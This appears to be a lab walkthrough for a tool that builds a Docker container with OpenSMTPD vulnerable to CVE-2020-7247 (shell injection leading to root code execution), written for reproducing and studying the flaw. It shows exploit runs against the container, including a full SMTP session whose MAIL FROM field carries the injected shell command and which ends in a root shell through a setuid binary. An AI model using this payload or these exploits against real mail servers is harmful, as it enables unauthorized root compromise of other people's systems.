 # CVE-2020-7247 (Remote Code Execution in opensmtpd)

### Description

CVE-2020-7247 is a vulnerability affecting OpenSMTPD, a mail server
developed by the OpenBSD project, which is also available on several
Linux distributions such as Debian.  The flaw was identified by the
Qualys Security team and disclosed in January 2020.

[The
report](https://www.qualys.com/2020/01/28/cve-2020-7247/lpe-rce-opensmtpd.txt),
describes a shell injection in the SMTP server of `opensmtpd`, which
can lead to a Local Privilege Escalation or even a Remote Code
Execution as `root` if the server is publicly exposed.



### Reproducing a Vulnerable Environment

```shell
python -m decret --number 2020-7247 --directory opensmtpd 
```

Once in the container, we can try to start opensmtpd.

```shell
root@cve-2020-7247:/# smtpd -d
info: OpenSMTPD 6.6.1p1 starting
warn: purge_task: opendir: No such file or directory
pony express: listen: Address already in use
smtpd: process pony socket closed
```

There is actually a small issue with this example.  Indeed, Docker
produces a `/etc/hosts` with two `localhost` lines (one for IPv4 and
one for IPv6), and `opensmtpd` tries to bind twice on the loopback.

The simple solution here is to rewrite `localhost` as `127.0.0.1` in
the configuration file (updating `/etc/hosts` is not possible, since
the file is handled by the Docker engine):

```shell
root@cve-2020-7247:/# sed -i s/localhost/127.0.0.1/ /etc/smtpd.conf
root@cve-2020-7247:/# /etc/init.d/opensmtpd start
```

### Simple testing method

The vulnerable version of `opensmtpd` should now be running.

You can try to use one of the available exploits, such as
`/tmp/decret/exploit_1_47984_verified.py`, which allows you to execute an
(almost) arbitrary command as `root` (there are size and charset
limitations, that can be overcome using various tricks, such as the
one described in Qualys advisory):

```shell
root@cve-2020-7247:/# apt install -y python3 python-is-python3
root@cve-2020-7247:/# cd /tmp/decret/
root@cve-2020-7247:/tmp/decret# ls /tmp/surprise
ls: cannot access '/tmp/surprise': No such file or directory
root@cve-2020-7247:/tmp/decret# python exploit_1_47984_verified.py 127.0.0.1 25 "touch /tmp/surprise"
[*] OpenSMTPD detected
[*] Connected, sending payload
[*] Payload sent
[*] Done
root@cve-2020-7247:/tmp/decret# ls /tmp/surprise
/tmp/surprise
```

You can also try to run the Local Privilege Escalation in `/tmp/decret/exploit_2_48038_verified.rb`:
```
root@cve-2020-7247:/# apt install -y gcc
[...]
root@cve-2020-7247:/tmp/decret# cd /tmp/decret
root@cve-2020-7247:/tmp/decret# su toto
toto@cve-2020-7247:/tmp/decret$ perl /tmp/decret/exploit_0_verified LPE
raptor_opensmtpd.pl - LPE and RCE in OpenBSD's OpenSMTPD
Copyright (c) 2020 Marco Ivaldi <raptor@0xdeadbeef.info>

< 220 cve-2020-7247 ESMTP OpenSMTPD
> HELO fnord
< 250 cve-2020-7247 Hello fnord [127.0.0.1], pleased to meet you
> MAIL FROM:<;for i in 0 1 2 3 4 5 6 7 8 9 a b c d;do read r;done;sh;exit 0;>
< 250 2.0.0 Ok
> RCPT TO:<root>
< 250 2.1.5 Destination address valid: Recipient ok
> DATA
< 354 Enter mail, end with "." on a line by itself
< 250 2.0.0 4192aeac Message accepted for delivery

Payload sent, please wait 5 seconds...
-rwsrwxrwx 1 root root 16712 May 26 17:00 /usr/local/bin/pwned
# id
uid=0(root) gid=0(root) groups=0(root),1000(toto)
# 
```

If we update `opensmtpd` in the container (you should  : 
```shell
apt-get install opensmtpd
```
The exploits do not work anymore.



### One-liner

Using customization options `--run-lines` and `--cmd-line`, we can
create a vulnerable container and expose it to the host.

```shell
python -m decret -n 2020-7247 \
                 -d opensmtpd \
                 --port 25 --host-port 2525 \
                 --run-lines "sed -i s/localhost/0.0.0.0/ /etc/smtpd.conf" \
                             "echo 'match from any for domain \"cve-2020-7247\" action \"local\"' >> /etc/smtpd.conf" \
                 --cmd-line "smtpd -d"
```

Since `opensmtpd` is restricted by default to only allow local
operations, we have to make more changes to the `smtpd.conf` file.

Once the container is running, you can simply use one of the exploit
from the host, and check that it works:
```shell
# From host
$ docker exec -ti cve-2020-7247 /bin/ls /tmp/DANGER
bin/ls: cannot access '/tmp/DANGER': No such file or directory
$ python opensmtpd/exploit_2_verified 127.0.0.1 2525 'touch /tmp/DANGER'
[*] OpenSMTPD detected
[*] Connected, sending payload
[*] Payload sent
[*] Done
$ docker exec -ti cve-2020-7247 /bin/ls /tmp/DANGER
DANGER
```
